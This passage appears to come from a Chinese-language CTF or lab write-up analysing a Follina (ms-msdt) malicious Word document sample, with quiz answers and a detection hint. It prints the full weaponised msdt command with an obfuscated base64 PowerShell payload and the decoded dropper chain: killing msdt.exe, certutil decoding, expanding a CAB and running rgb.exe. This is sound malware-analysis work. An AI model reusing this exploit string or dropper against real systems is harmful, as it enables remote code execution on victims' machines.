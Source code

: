```bash!
"C:\WINDOWS\system32\msdt.exe" ms-msdt:/id PCWDiagnostic /skip force /param "IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3R5bGUgaGlkZGVuIC1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2R0LmV4ZSI7U3RhcnQtUHJvY2VzcyAkY21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9yIC9yICV0ZW1wJSAlaSBpbiAoMDUtMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0ciBUVk5EUmdBQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5leGUiOw=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO"
```
根據[^wp2]的說明，這是使用 ms-msdt 的架構，使用參數 IT_BrowseForFile 呼叫本機套件 PCWDiagnostic，其中包含嵌入在 $() 中的 PowerShell 語法，用base64 decode過後的關鍵payload如下:
```bash
$cmd = "c:\windows\system32\cmd.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c taskkill /f /im msdt.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c cd C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";
```
以下是根據[^wp2]針對每一個步驟做簡短說明:
> Starts hidden windows to:
> Kill msdt.exe if it is running
> Loop through files inside a RAR file, looking for a Base64 string for an encoded CAB file
> Store this Base64 encoded CAB file as 1.t
> Decode the Base64 encoded CAB file to be saved as 1.c
> Expand the 1.c CAB file into the current directory, and finally:
> Execute rgb.exe (presumably compressed inside the 1.c CAB file)

這是一個很嚴重的風險等級，victim只要點擊相關的檔案，就會觸發一系列攻擊的payload，也可以看[^wp5]示範如何利用該漏洞pwn下一台主機，讓攻擊者達到RCE的poc影片，影片中提到使用者只要點擊攻擊文件，甚至只是用內建的預覽功能，也可以在沒有點擊的情況下在背後run一系列payload

### Exploit
這一題根據[^wp2]的說明以及[^wp3-twitter]的實測，會發現只要經過padding使得總字串的長度大於等於4096就不會觸發核心的攻擊payload，原因是 HTML 處理函數的Hardcoded buffer的大小就是4096，所以如果大於這個數量，payload就沒辦法invoke進去

:::spoiler Flag
Flag: `4096`
:::
## ==Q6==
> After execution, the sample will try to kill a process if it is already running. What is the name of this process? (Format: filename.ext)
### Recon
根據前一題的描述，以及base64 decode過後的結果會發現如果process中有msdt.exe的話就先kill掉

:::spoiler Flag
Flag: `msdt.exe`
:::
## ==Q7==
> You were asked to write a process-based detection rule using Windows Event ID 4688. What would be the ProcessName and ParentProcessname used in this detection rule? [Hint: OSINT time!] (Format: ProcessName, ParentProcessName)
### Recon
這個可以直接看any run的process info，從process之間的關係可以知道msdt.exe的parent process是winword.exe，所以要設定條件的話可以從這邊下手
![圖片](https://hackmd.io/_uploads/r1rMwq0Dp.png)
